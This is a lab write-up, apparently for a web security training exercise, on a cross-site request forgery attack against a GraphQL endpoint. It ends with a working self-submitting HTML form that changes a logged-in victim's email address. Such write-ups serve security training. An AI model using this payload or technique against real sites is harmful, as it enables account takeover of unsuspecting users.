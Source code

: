 # Performing CSRF exploits over GraphQL
# Objective
The user management functions for this lab are powered by a GraphQL endpoint. The endpoint accepts requests with a content-type of `x-www-form-urlencoded` and is therefore vulnerable to cross-site request forgery (CSRF) attacks.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address, then upload it to your exploit server.

You can log in to your own account using the following credentials: `wiener:peter`. 
# Solution
## Analysis
Website uses GraphQL to manage informations about posts and users (including authentication).

|![](Images/image-22.png)|
|:--:| 
| *GraphQL example query - Update email funcionality* |

## Exploitation
### Running introspection query
Website allows for introspection query, which discloses information about database structure as well as hidden fields and functions.

|![](Images/image-23.png)|
|:--:| 
| *Introspection query* |
|![](Images/image-24.png)|
| *Introspection query - Visualization of introspection results* |

### CSRF exploitation
Browsers do not allow cross-origin `application/json` POST requests using HTML forms or plain JavaScript (like `fetch()` or `XMLHttpRequest`) without triggering a CORS preflight request. This triggers a CORS preflight, where the browser sends an `OPTIONS` request before the actual `POST`, to ask the server if it's okay. If the server doesn't respond with the correct CORS headers (`Access-Control-Allow-Origin`, etc.), the browser blocks the request.

The above CORS verification can by bypassed with the use of `Content-Type: x-www-form-urlencoded` because this content type does not require origin validation. 

To prepare payload click `Change request method` twice. Then prepared request can be passed to [POC CSRF Generator](https://csrf-poc-generator.vercel.app/) and staged on exploit server. There may be problems with (double) URL encoding while using POC CSRF Generator.

|![](Images/image-25.png)|
|:--:| 
| *Conversion of mutation query to Content-Type of x-www-form-urlencoded* |
|![](Images/image-27.png)| 
| *Conversion of mutation query to Content-Type of x-www-form-urlencoded* |
| *Skipped variables argument* |
|![](Images/image-26.png)|
| *Final payload* |


Final payload:
```html
<html>
  <body>
    <form action="https://0a5e00ab0378317f801c0dfc0058005f.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value='mutation { changeEmail(input: { email: "hacker@hacker.net" }) { email } }' />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```


